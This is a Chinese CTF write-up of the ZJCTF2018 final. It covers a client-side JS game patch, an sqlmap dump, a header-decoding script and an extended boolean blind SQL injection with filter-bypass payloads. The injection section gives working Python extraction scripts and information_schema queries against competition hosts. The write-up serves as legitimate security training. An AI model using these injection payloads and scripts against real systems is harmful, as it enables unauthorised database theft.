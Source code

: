 # ZJCTF2018 final
记录一下省赛线下这一天我参与的题目，以作留存。

## 0x01你追我赶
看到这道题，先抓包，发现包内有静态 js 文件：`/static/game/index.js`

而且源码里也提示题目是 offline，可以想见这道题目的总体思路是修改本地逻 辑。 这是一个以 chrome 恐龙游戏为基础的题目，在以前也做到过，不同的是，在 home 页面可以看到游戏规则里写坚持 1 分钟即可获得 flag。因此改分数是不太对的， 所以我选择搜索碰撞逻辑然后修改,去掉了 else 后面调用 gameover 的代码，这样 就不会碰撞了：
![](ZJCTF2018%20final/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202018-11-05%20%E4%B8%8A%E5%8D%888.56.05.png)
五分钟后还原代码，然后用 burp 拦截 ajax 请求，在回复报文中获得 flag。 当然，在写 wp 复看这段代码的时候还找到了 post 请求的代码段，这样自主发包 想必应该也是一种思路。
决赛后新加post成功后的四张图片像素位比较，因为misc我不管，在此就不多赘述。
<br><br>

##  0x02知法懂法
Sqlmap扫id字段dump出整个数据库，比对每一条和网络安全法有什么区别。发现第二十九条与标准法不同。
然后猜谜，该提交什么呢，往哪里提交呢？ctf真是一个猜谜游戏，爆了网页，爆了属性名，最后发现提交正确的第二十九条内容即可获得flag
<br><br>

## 0x03再快一点
原题，存在于各类基础ctf题库，脚本如下：
```python
import requests
import base64

url= ‘http://172.21.1.102:61234/hC1DU4oEZ3’
s = requests.Session()
flag = base64.b64decode(base64.b64decode(s.get(url).headers[‘flag’]).decode(‘utf-8’).split(‘:’)[1]) 
postdata = {‘margin’:flag}
*print*(s.post(url, data=postdata).text)
```
<br><br>

## 0x04Blind
写这篇writeup就想记录一下这个耻辱，自己拱手相让的冠军真的很令人难受。
### 基础性判断判断：
当被字符等截断前的数字为1-5时返回you find it!，被过滤字符返回Probably you need an other mothod.，其余返回hide more deep。
发现黑名单字符为：`> <> != ' %27 # and union 空格`
未被过滤的字符为：`() ^ or %20 - CHAR() "  %00 select <`
确定是字符型注入：`1-1`结果未变
所以暂且把hide more deep当作**错误值**，you find it!当作**正确值**，因为需要用`or`连接，所以第一位要先取错误值，比如`0`，然后or后拟构造出一个true，让查询返回正确，否则返回错误。过程中发现，虽然`'`被过滤，但是`”`却可以完成构造，说明字符串被双引号闭合，所以完成poc也不成问题。

### 最后构筑payload结构如下：
 `0"or"1"^"1"^(xxxxxx)--%20` 
 
ps1: 我🐎也不知道狗哥在帮试payload的时候经历了什么，核心payload的前面要加”1”^”1”，讲道理这样能用的话，只要在核心前加“0”即可，不过令人奇怪的是：or”1”^”1”和or1^1返回的结果有差异，可能数据库是MSSQL之类的原因。

ps2：由于当时我在尝试了> 和<>没有试<，理所当然觉得<也被过滤了，是我的失误，所以最后用减号，这大大降低了脚本的优势，以至于我后来一直选择burp工程锤来爆破。
不管怎么说，总算是能用了。

### 编写脚本：
脚本里用到的payload如下：
 `0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20` 
脚本编辑如下：
```python
# POST boolean blind sql injection
import requests

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
s = requests.Session()
key = ''

for pos in range(1,2): 
	for mid in range(0,127):
		payload = r'0"or"1"^"1"^(ascii(substr(database(),{0},1))-{1})--%20'.format(pos,mid)
		data = {'id':payload,'Submit':'Search'} 
		r = s.post(url, data=data)
		print(len(r.text))
		# if b"Hide more deep" in r.content:
		if len(r.text)==647:
			break

	key += chr(mid)
	print(key)
print("result:",key)
```
很遗憾，不知道为何，同样的payload，在burp下能爆出来，脚本就会出现问题，原因大抵是python对payload中双引号的处理可能和正常报文有所不同，我也不是特别熟悉request模块，所以在此即然burp能用，就索性用了burp。

### burp上爆肝一般的爆破开始：
使用payload如下：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
* 爆数据库名：
`0"or"1"^"1"^(ascii(substr((((select group_concat(schema_name) from information_schema.schemata))),{0},1))-{1})--%20`
获得`information_schema tips useless`
* 爆表名：
`0"or"1"^"1"^(ascii(substr(((SELECT group_concat(table_name) FROM information_schema.tables)),{0},1))-{1})--%20`
800字长。。。。。
* 爆字段名：
`0"or"1"^"1"^(ascii(substr(((select group_concat(xxx) from xxx)),{0},1))-{1})--%20`
1200字长。。。。。没有写脚本真的很僵。所以就在这里卡住了。。。
中间还用了max和min,爆出了zjctf这个表名，判断是useless.zjctf，然而依旧无济于事，最终没找到正确的列名比赛就结束了。
现在想想，应该是去解决我脚本上的问题，而不是头铁来用burp爆。

### 拜读ch1p战队wp后的总结和思考
几个点：
1. 首先，他们和我一样，burp上正确的payload用在脚本中就会出现问题，他们的结论是`--`上会有问题，这我就没有深究出来。而且，他们及时转换策略，将`--`换成了`or "-`，使脚本能够成功运行。哎
2. 在poc的设计上，使用`/**/`代替空格，我用`^()`取代了空格；`in`取代比较字符，所以用了substr却没加ascii。没有使用`<`我觉得在这句话来讲是有问题的，首先是编写脚本的时候就不能用二分法加快搜索速度，其次是不区分大小写的特性导致了后面爆writeup出现问题。

**其部分wp如下：**
在当前库tips中，并没有发现flag ,需要进行跨库查询，首先需要先在information_schema库中，获得所有的库名。

payload:`payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'`

得到还存在一个名为userless 的数据库，查询其表段，得知存在zjctf 表，flag 在其content 字段。
跑出的 flag 为：zjctf{aa0_bl1nd_hha} 但是上交时提示错误。懵了一会儿后突然想起in 是不区分大小写的。 那么猜测大写字母，针对 flag 中唯一的单词，尝试提交aa0_Bl1nd_hha 成功！

下面是完整的脚本：
```python
"""
    Author:Li4n0
    Date:2018-11-4
"""
import requests
import string

# in 不区分大小写 需要自己再判断一次

url = 'http://172.21.1.102:61234/iFmn2H0UOq'
#payload = '-1" or substr((select group_concat(column_name) from information_schema.columns where table_name in ("zjctf")),%s,1) in ("%s") or "0'

#payload = '-1" or substr((select group_concat(table_schema) from information_schema.tables where table_schema not in ("information_schema","tips")),%s,1) in ("%s") or "0'

payload = '-1" or substr((select group_concat(content) from useless.zjctf),%s,1) in ("%s") or "0'
key = ''
length = 1
while True:
    for i in string.printable.replace('#', ''):
        data = {
            'id': payload.replace(' ', '/**/') % (str(length), i),
            'Submit': 'Search'
        }
        r = requests.post(url, data=data)
        if 'You find' in r.text:
            key += i
            length += 1
            break
    print(key)
```
个人认为，这个脚本，精髓就在where后的`in`和`not in`，败笔在(“%s”)前的`in`。值得吸收的点还有使用`for i in string.printable.replace('#', '')`来爆破字符，比我的脚本要精确一点。不管如何，它能跑出答案，一切都无所谓了。同样是九年义务制教育，他们现在比我更加优秀。


END:)


